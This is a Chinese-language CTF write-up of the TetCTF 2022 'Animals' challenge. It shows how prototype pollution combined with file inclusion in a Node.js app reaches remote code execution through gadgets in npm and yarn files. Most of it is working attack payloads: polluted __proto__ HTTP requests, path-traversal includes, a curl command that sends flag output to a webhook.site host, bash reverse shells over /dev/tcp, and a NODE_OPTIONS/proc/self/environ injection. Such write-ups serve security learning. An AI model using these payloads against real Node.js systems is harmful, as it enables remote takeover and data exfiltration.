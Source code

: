 ### References

- [@Zeyu, CTF Writeups - Animals, 2022-01](https://ctf.zeyu2001.com/2022/tetctf-2022/animals)
- @Y4tacker, Animals-nodejs.pdf from 代码审计, 2022-01-03

**Tag: Prototype Pollution, Universal Gadgets**



1. `/api/tet/list` 处很明显的原型链污染；`/api/tet/years` 处很明显的文件包含；考虑结合原型链污染来包含一个可利用的 js 文件。
2. `grep -r "child_process" /usr/src/app/node_modules/` ; `grep -r "child_process" /usr/local/lib/node_modules/`

#### RCE Gadget 1

`/usr/local/lib/node_modules/npm/scripts/changelog.js`

```js
'use strict'

const execSync = require('child_process').execSync
const branch = process.argv[2] || 'origin/latest'
const log = execSync(`git log --reverse --pretty='format:%h %H%d %s (%aN)%n%b%n---%n' ${branch}...`).toString().split(/\n/)
```

很明显的命令注入，发送如下请求即可：

```text
POST /api/tet/list HTTP/1.1
...
Content-Type: application/json

{
    "data": {
        "__proto__": {
            "2":"; cd /;/readflag | curl https://webhook.site/02088d6b-e7e7-41aa-a55e-24d016b011cc/ -d@-;"
        }
    }
}

******************************************************************************

POST /api/tet/years HTTP/1.1
...
Content-Type: application/json

{"list":"../../../../../usr/local/lib/node_modules/npm/scripts/changelog.js"}
```

#### RCE Gadget 2

`/usr/local/lib/node_modules/npm/node_modules/editor/index.js`

```js
var spawn = require('child_process').spawn;

module.exports = function (file, opts, cb) {
    if (typeof opts === 'function') {
        cb = opts;
        opts = {};
    }
    if (!opts) opts = {};

    var ed = /^win/.test(process.platform) ? 'notepad' : 'vim';
    var editor = opts.editor || process.env.VISUAL || process.env.EDITOR || ed;
    var args = editor.split(/\s+/);
    var bin = args.shift();

    var ps = spawn(bin, args.concat([ file ]), { stdio: 'inherit' });

    ps.on('exit', function (code, sig) {
        if (typeof cb === 'function') cb(code, sig)
    });
};
```

这里的 `opts.editor` 可以用来污染，所以传入 `spawn` 的参数的可控的，可以用来执行命令。

这是个导出函数，在 Node.js 中，模块标识符可能指向文件，也可能指向包含 index.js 文件的目录，所以看看子目录找到: `/usr/local/lib/node_modules/npm/node_modules/editor/example/edit.js`

```js
var editor = require('../');
editor(__dirname + '/beep.json', function (code, sig) {
    console.log('finished editing with code ' + code);
});
```

正好包含了上级目录，所以发送如下请求即可：

```text
POST /api/tet/list HTTP/1.1
...
Content-Type: application/json

{
    "data": {
        "__proto__": {
            "shell": true,
            "editor":"id ; bash -c 'bash -i >& /dev/tcp/<ip>/<port> 0>&1'; ls"
        }
    }
}

******************************************************************************

POST /api/tet/years HTTP/1.1
...
Content-Type: application/json

{"list":"../../../../../usr/local/lib/node_modules/npm/node_modules/editor/example/edit.js"}
```

#### ENV Variable Gadget

node v8.0.0 开始支持的 [NODE_OPTIONS](https://nodejs.org/api/cli.html#node_optionsoptions) 参数，文档例子如下：

```bash
NODE_OPTIONS='--require "./a.js"' node --require "./b.js"
// is equivalent to:
node --require "./a.js" --require "./b.js"
```

可以加载并执行一个 js 文件或包含 js 代码的文件。

@Y4tacker 还找到了一个 `/opt/yarn-v1.22.15/preinstall.js` 文件（版本号可能不一样）：

```js
if (process.env.npm_config_global) {
    var cp = require('child_process');
    var fs = require('fs');
    var path = require('path');

    try {
        var targetPath = cp.execFileSync(process.execPath, [process.env.npm_execpath, 'bin', '-g'], {
            encoding: 'utf8',
            stdio: ['ignore', undefined, 'ignore'],
        }).replace(/\n/g, '');
        // ...
    } catch (err) {
        // ignore errors
    }
}
```

`npm_config_global` 直接污染就能进入；之后调用 `child_process.execFileSync` 起了一个 node 进程，其源码调用了 `normalizeSpawnArguments` 函数：

```js
function normalizeSpawnArguments(file, args, options) {
    // ...
    if (options === undefined) options = {};

    const env = options.env || process.env;
    const envPairs = [];
    
    // Prototype values are intentionally included.
    for (const key in env) {
        const value = env[key];
        if (value !== undefined) {
            envPairs.push(`${key}=${value}`);
        }
    }
    
    return { /* ... ,*/ envPairs, /*, ... */ };
}
```

很明显可以通过污染 `options.env` 来设置环境变量；结合 `/proc/self/environ` 来构造 js code 来利用：

```text
POST /api/tet/list HTTP/1.1
...
Content-Type: application/json

{
    "data": {
        "__proto__": {
            "npm_config_global": 1,
            "env": { "AAAA": "require('child_process').exec(`bash -c 'bash -i >& /dev/tcp/<ip>/<port> 0>&1'`);//" },
            "NODE_OPTIONS": "--require /proc/self/environ"
        }
    }
}

******************************************************************************

POST /api/tet/years HTTP/1.1
...
Content-Type: application/json

{"list":"../../../../../opt/yarn-v1.22.19/preinstall.js"}
```




